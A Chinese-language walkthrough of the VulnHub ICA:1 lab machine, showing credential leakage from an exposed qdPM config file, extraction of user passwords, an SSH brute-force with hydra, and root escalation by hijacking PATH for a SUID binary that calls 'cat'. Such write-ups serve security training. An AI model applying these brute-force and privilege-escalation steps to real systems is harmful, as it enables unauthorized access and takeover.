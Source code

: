 [https://www.vulnhub.com/entry/ica-1,748/](https://www.vulnhub.com/entry/ica-1,748/)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181714892.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181717900.png)

---

`qdPM 9.2`版本存在数据泄露[https://www.exploit-db.com/exploits/50176](https://www.exploit-db.com/exploits/50176)

[http://192.168.56.102/core/config/databases.yml](http://192.168.56.102/core/config/databases.yml)

```
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
```

利用`qdpmadmin:UcVQCMQk2STVeS6J`成功连接数据库

在`qdpm.configuration`读到了`app_administrator_password`为`$P$EoZHz4EZ.RP1WLAVp6VUSGxVREXRAA1`想进行覆盖操作,但是不知道这玩意怎么加密的...

在`staff.user`和`staff.login`中读到了5个用户名和base64后的密码

```
Smith suRJAdGwLp8dy3rF
Lucas 7ZwV4qtg42cmUXGX
Travis X7MQkP3W29fewHdC
Dexter DJceVy98W28Y7wLg
Meyer cqNnBWCByS2DuJSy
```

试了登录qdpn全都无法登录,尝试连接ssh(看了眼wp,发现用户名是小写...)

`hydra -L ./user.txt -P ./passwd.txt 192.168.56.102 ssh`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181749157.png)

```
travis@debian:/home/travis$ find / -user root -perm -4000 -print 2>/dev/null
/opt/get_access
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

注意`/opt/get_access`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181759244.png)

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setuid(0);
  setgid(0);
  system("cat /root/system.info");
  if ( socket(2, 1, 0) == -1 )
    puts("Could not create socket to access to the system.");
  else
    puts("All services are disabled. Accessing to the system is allowed only within working hours.\n");
  return 0;
}
```

`cat`是相对路径下的,把环境变量中的`PATH`修改到`/tmp`目录并且在`/tmp`下新建个`cat`的`/bin/bash`就ok了

`export PATH=/tmp:$PATH`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201181804188.png)